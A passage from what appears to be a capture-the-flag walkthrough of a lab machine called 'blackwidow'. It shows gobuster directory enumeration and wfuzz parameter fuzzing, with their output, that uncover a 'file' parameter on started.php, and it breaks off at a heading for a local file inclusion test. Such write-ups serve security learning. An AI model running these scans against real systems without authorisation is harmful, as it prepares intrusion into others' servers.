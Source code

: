 - `/company`

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ gobuster dir -k -u http://blackwidow/company  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.bak,.txt
  ===============================================================
  Gobuster v3.0.1
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://blackwidow/company
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Extensions:     php,bak,txt
  [+] Timeout:        10s
  ===============================================================
  2021/03/05 23:39:19 Starting gobuster
  ===============================================================
  /assets (Status: 301)
  /forms (Status: 301)
  /changelog.txt (Status: 200)
  /Readme.txt (Status: 200)
  /started.php (Status: 200)
  ===============================================================
  2021/03/05 23:48:37 Finished
  ===============================================================
{% endhighlight %}

## Find the Get parameter

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ wfuzz -w  /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  --hh 42271 'http://blackwidow/company/started.php?FUZZ=test'
  ********************************************************
  * Wfuzz 3.1.0 - The Web Fuzzer                         *
  ********************************************************

  Target: http://blackwidow/company/started.php?FUZZ=test
  Total requests: 220560

  =====================================================================
  ID           Response   Lines    Word       Chars       Payload
  =====================================================================

  000000759:   200        0 L      0 W        0 Ch        "file"
{% endhighlight %}

## Wfuzz - LFI Path Test
